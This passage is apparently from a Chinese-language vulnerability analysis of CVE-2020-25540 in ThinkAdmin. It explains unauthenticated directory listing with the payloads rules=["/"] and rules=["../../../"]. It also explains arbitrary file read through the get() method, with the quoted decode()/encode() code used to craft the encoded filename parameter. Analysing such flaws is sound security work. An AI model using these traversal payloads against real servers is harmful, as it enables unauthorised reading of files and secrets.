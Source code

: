POST:

    rules=["/"]

也可以使用`../`来进行目录穿越

    rules=["../../../"]

演示站：

![1.png](./resource/(CVE-2020-25540)ThinkAdmin未授权列目录_任意文件读取/media/rId25.png)

### 任意文件读取

`get()`：

    /**
     * 读取文件内容
     */
    public function get()
    {
        $filename = decode(input('encode', '0'));
        if (!ModuleService::instance()->checkAllowDownload($filename)) {
            $this->error('下载的文件不在认证规则中！');
        }
        if (file_exists($realname = $this->app->getRootPath() . $filename)) {
            $this->success('读取文件内容成功！', [
                'content' => base64_encode(file_get_contents($realname)),
            ]);
        } else {
            $this->error('读取文件内容失败！');
        }
    }

首先从GET读取`encode`参数并使用`decode()`解码：

    /**
     * 解密 UTF8 字符串
     * @param string $content
     * @return string
     */
    function decode($content)
    {
        $chars = '';
        foreach (str_split($content, 2) as $char) {
            $chars .= chr(intval(base_convert($char, 36, 10)));
        }
        return iconv('GBK//TRANSLIT', 'UTF-8', $chars);
    }

解密UTF8字符串的，刚好上面有个加密UTF8字符串的`encode()`，攻击时直接调用那个就可以了：

    /**
     * 加密 UTF8 字符串
     * @param string $content
     * @return string
     */
    function encode($content)
    {
        [$chars, $length] = ['', strlen($string = iconv('UTF-8', 'GBK//TRANSLIT', $content))];
        for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($string[$i]), 10, 36), 2, 0, 0);
        return $chars;
    }
